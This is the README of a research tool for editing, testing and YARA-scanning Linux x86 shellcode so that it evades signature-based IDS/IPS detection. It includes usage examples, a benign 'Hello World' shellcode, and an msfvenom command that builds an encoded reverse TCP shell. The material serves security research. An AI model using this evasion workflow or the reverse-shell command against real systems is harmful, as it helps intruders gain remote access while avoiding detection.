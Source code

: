 # Shellcode Assistant

A useful script for hex editing, writing, scanning and/or testing **Linux x86 shellcode** to bypass IDS/IPS.

**Tested on Kali Linux Rolling x86 & x64**

The script was developed for a Offensive Technologies research project by students of OS3. We were looking for a comfortable and efficient way of altering existing shellcode. This tool will help reproduce the experiments of our research.

It is designed to make the process of altering shellcode to bypass **signature based** and heuristic detection easier. It takes a raw shellcode file as input and offers various options, including scanning shellcode using YARA rules, dumping code in hexadecimal or Intel x86 ASM format, compiling code using a C wrapper and executing and checking a raw shellcode file for a specific string. In addition, it can emulate, analyse and generate a graph for x86 shellcode using Libemu. Automatic recompilation, which triggers when the modification time stamp changes, is another useful feature that might save time when raw shellcode is manually modified and saved using a hex editor.

**We recommend using the automatic recompilation mode by using the -R flag**.

The script also provides an **interactive command line interface**, similar to Metasploit's nasm-shell, for assembling and disassembling instructions. It does this using the Capstone and Keystone libraries.

## Dependencies
* Python 3 (≥ 3.5)
* Capstone
* Keystone
* YARA
* Colorama
* Libemu
* gcc

## Setup

```
# python3 libraries
pip3 install capstone
pip3 install --no-binary keystone-engine keystone-engine
pip3 install colorama
pip3 install yara

# gcc is required for compiling the raw shellcode into an executable
sudo apt install build-essential

# libemu is required for outputting a graph using Libemu's sctest
sudo apt install graphviz
sudo apt install libemu2

# gcc-multilib is required to compile x86 executables on x64 systems
apt-get install gcc-multilib

# create symbolic link to YARA library in case it isn't found
ln -s /usr/local/lib/python3.8/dist-packages/usr/lib/libyara.so /usr/lib/libyara.so
```

## Usage

```
=============================================================
                -- Shellcode Assistant v1.0 --
=============================================================

usage: shellcode_assistant.py [-h] -f FILE [-y YARA] [-o OFFSET] [-t] [-s STDOUT] [-se STDERR] [-x] [-c]
                              [-e] [-d] [-a] [-A] [-R] [-ob]

== Tool to assist a user in writing or modifiying shellcode ==

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Enter path to file.
  -y YARA, --yara YARA  Enter path to YARA rule.
  -o OFFSET, --offset OFFSET
                        Set hexadecimal program offset.
  -t, --test            Run and test compiled executable.
  -s STDOUT, --stdout STDOUT
                        Check STDOUT for a specific string.
  -se STDERR, --stderr STDERR
                        Check STDERR for a specific string.
  -x, --hexdump         Dump hex code.
  -c, --compile         Compile file using C wrapper.
  -e, --emulate         Emulate and analyse shellcode using Libemu.
  -d, --disassemble     Disassemble shellcode.
  -a, --assembler       Start ASM interactive assembler / disassembler mode.
  -A, --all             Run all functions above.
  -R, --autorecompile   Automatic recompiling and testing upon file modification time change.
  -ob, --objdump        Use Linux objdump instead of Python Capstone library.
```

*The Python Capstone library might truncate code in certain cases. Use --objdump if necessary.*

## Examples

```
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -R -s "Hello World" -o 0x0 -y rule.yar
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -A -s "Hello World"
```

### Demo - Modifying Shikata Ga Nai Encoded 'Hello World' Shellcode

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.gif" width="1000px" height="565" alt="" data-align="center">

**Diagram generated by Libemu**

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.png" width="600px" height="484" alt="" data-align="center">

### ASM Interactive Assembler / Disassembler

```
...
0x40404064    2    31 DB               xor    ebx, ebx
0x40404066    2    CD 80               int    0x8
---------------------------------------
Last Modified: Sat May 16 16:48:48 2020
---------------------------------------
asm > ?
 <x86-instruction> | recompile | test | emulate | yarascan | hexdump | ls | clear | reset | exit
asm > \xC7\xC3\xAC\xCB\x77\x92
mov	ebx, 0x9277cbac
asm > push 0x9277cbac; pop ebx
\x68\xAC\xCB\x77\x92\x5B
asm >

Shellcode emulated:
Graph saved as 'testing.bin.dot' & 'testing.bin.png'
---------------------------------------
asm >
```

### Obtaining Raw Shellcode

#### Method 1 - Compile ASM and dump code section to hex format

```
1. Compile ASM Code
nasm -f elf32 helloworld.asm -o helloworld.o

2. Dump object code to hex code
objdump -d ./helloworld.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

3. Save hex shellcode to raw shellcode file using echo
echo -e "\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\x52\x68\x72\x6c\x64\x0a\x68\x6f\x20\x57\x6f\x68\x48\x65\x6c\x6c\x89\xe1\xb2\x0c\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80" > testing.bin
```

#### Method 2 - Use Metasploit's shellcode generator

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw -b "\x00" -e x86/shikata_ga_nai -o testing.bin
```

## Authors

Alexander-OS3

Jelle-OS3

## TO-DO

* Add support for Linux x64
* Create script with Windows support
